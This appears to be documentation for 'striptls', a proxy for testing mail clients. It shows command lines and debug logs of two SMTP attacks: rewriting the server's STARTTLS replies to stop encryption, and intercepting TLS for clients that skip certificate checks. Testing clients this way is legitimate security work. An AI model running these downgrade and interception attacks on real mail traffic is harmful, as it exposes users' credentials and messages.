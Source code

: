 ### Invalid STARTTLS response code

	#> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.StripWithInvalidResponseCode
	- INFO     - <Proxy 0x1fefe70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
	- INFO     - <RewriteDispatcher attacks={25: set([<class __main__.StripWithInvalidResponseCode at 0x02010730>])}>
	- DEBUG    - <ProtocolDetect 0x1feff90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
	- INFO     - <Session 0x1feff10> client ('127.0.0.1', 20061) has connected
	- INFO     - <Session 0x1feff10> connecting to target ('mail.gmx.net', 25)
	- DEBUG    - <Session 0x1feff10> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
	- DEBUG    - <Session 0x1feff10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	- DEBUG    - <Session 0x1feff10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
	- DEBUG    - <Session 0x1feff10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250-STARTTLS\r\n250 STARTTLS\r\n'
	- DEBUG    - <Session 0x1feff10> [client] => [server]          'STARTTLS\r\n'
	- DEBUG    - <Session 0x1feff10> [client] <= [server][mangled] '200 STRIPTLS\r\n'
	- DEBUG    - <Session 0x1feff10> [client] => [server][mangled] None
	- DEBUG    - <Session 0x1feff10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
	- DEBUG    - <Session 0x1feff10> [client] <= [server]          '530 Authentication required\r\n'
	- DEBUG    - <Session 0x1feff10> [client] => [server]          'rset\r\n'
	- DEBUG    - <Session 0x1feff10> [client] <= [server]          '250 OK\r\n'
	- WARNING  - <Session 0x1feff10> terminated.


### Untrusted SSL Intercept (for clients not checking server cert trust)

	#> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.UntrustedIntercept
	- INFO     - <Proxy 0x1f468f0 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
	- INFO     - <RewriteDispatcher attacks={25: set([<class __main__.UntrustedIntercept at 0x01F45298>])}>
	- DEBUG    - <ProtocolDetect 0x1f46a10 protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
	- INFO     - <Session 0x1f46990> client ('127.0.0.1', 20238) has connected
	- INFO     - <Session 0x1f46990> connecting to target ('mail.gmx.net', 25)
	- DEBUG    - <Session 0x1f46990> [client] <= [server]          '220 gmx.com (mrgmx002) Nemesis ESMTP Service ready\r\n'
	- DEBUG    - <Session 0x1f46990> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	- DEBUG    - <Session 0x1f46990> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
	- DEBUG    - <Session 0x1f46990> [client] => [server]          'STARTTLS\r\n'
	- DEBUG    - <Session 0x1f46990> [client] <= [server][mangled] '220 Go ahead\r\n'
	- DEBUG    - <Session 0x1f46990> [client] <= [server][mangled] waiting for inbound SSL Handshake
	- DEBUG    - <Session 0x1f46990> [client] => [server]          'STARTTLS\r\n'
	- DEBUG    - <Session 0x1f46990> [client] => [server][mangled] performing outbound SSL handshake
	- DEBUG    - <Session 0x1f46990> [client] => [server][mangled] None
	- DEBUG    - <Session 0x1f46990> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	- DEBUG    - <Session 0x1f46990> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [xxx.xxx.xxx.xxx]\r\n250-SIZE 69920427\r\n250 AUTH LOGIN PLAIN\r\n'
	- DEBUG    - <Session 0x1f46990> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
	- DEBUG    - <Session 0x1f46990> [client] <= [server]          '530 Authentication required\r\n'
	- DEBUG    - <Session 0x1f46990> [client] => [server]          'rset\r\n'
	- DEBUG    - <Session 0x1f46990> [client] <= [server]          '250 OK\r\n'
	- WARNING  - <Session 0x1f46990> terminated.
